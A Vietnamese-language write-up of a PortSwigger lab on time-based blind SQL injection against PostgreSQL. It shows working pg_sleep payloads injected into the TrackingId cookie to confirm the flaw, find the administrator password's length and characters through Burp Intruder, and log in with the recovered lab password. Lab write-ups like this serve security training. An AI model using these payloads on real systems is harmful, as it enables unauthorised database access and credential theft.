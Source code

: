 # Write-up: Blind SQL injection with time delays and information retrieval

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi dựa trên times-delay để xác định mật khẩu `administrator`.

### Mục tiêu
- Lấy thông tin mật khẩu `administrator`
- Đăng nhập vào hệ thống dưới tên `administrator`

### Công cụ hỗ trợ
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
    ```
    ![lỗi](./images/error.png)
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
    ```
    ![lỗi](./images/error1.png)
    - **Kết quả**: phản hồi sau 10s, xác nhận lỗ hổng Blind SQLi và DB là PostgreSQL
        
- Kiểm tra sự tồn tại của bảng `users` và `username` = `administrator`        
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
    ```
    - **Kết quả**: phản hồi sau 10s, xác nhận có bảng `users` và người dùng `administrator`
        ![tồn tại](./images/data.png) 

2. **Tạo Payload**
- Tạo payload dựa vào times-delay để xác định độ dài mật khẩu của user `administrator` và gửi qua Burp Intruder, 
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (LENGTH(password)=§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
    ```
    - **Kết quả**: độ dài mật khẩu là 20 kí tự
        ![độ dài](./images/length.png)

- Tạo payload dựa vào times-delay để xác định mật khẩu và gửi qua Burp Intruder
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (SUBSTRING(password,§1§,1)='§e§') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator')--
    ```
    - **Kết quả**: lọc kết quả phản hồi sau 10s, xác định mật khẩu là `fvimx1a0d0qzmwqahdq8`
        ![mật khẩu](./images/pass.png)

3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`fvimx1a0d0qzmwqahdq8`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    ![login](./images/login_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên độ trễ thời gian.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.





